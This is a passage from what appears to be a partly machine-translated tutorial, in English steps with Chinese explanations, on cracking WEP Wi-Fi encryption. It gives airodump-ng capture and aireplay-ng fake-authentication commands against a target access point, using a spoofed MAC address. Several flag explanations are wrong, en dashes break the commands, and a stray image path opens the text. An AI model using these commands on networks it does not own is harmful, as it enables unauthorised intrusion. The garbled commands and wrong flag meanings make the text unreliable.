 3.  Type the following command and press *Enter*:

    ```
    airodump-ng –c 6 –w capture --bssid 00:13:10:9A:4E:B5 mon0

    ```

    以下是该命令的组件：

    *   `-c`：这是频道
    *   `-w`：这允许对文件进行写访问
    *   `--bssid`：这是无线接入点 MAC 地址

    以下是上一个命令的输出：

    ![Cracking WEP encryption](img/3183OS_04_09.jpg)

    您需要将粗体字替换为您的网络信息。

4.  Type the follow command and press *Enter*:

    ```
    aireplay-ng -1 1000 –q 10 –e linksys–a 00:13:10:9A:4E:B5 –h 00:11:22:33:44:55 mon0 –ignore-negative-one

    ```

    以下是该命令的组件：

    *   `-1`：这是每个突发的数据包数
    *   `-q`：这是两次保存间隔的秒数
    *   `-e`：设置目标 AP SSID
    *   `-a`：设置接入点 MAC 地址
    *   `-h`：设置源 MAC 地址（`00:11:22:33:44:55`为伪造的 MAC 地址）
    *   `-ignore-negative-one`：解析`mon0`上的固定通道
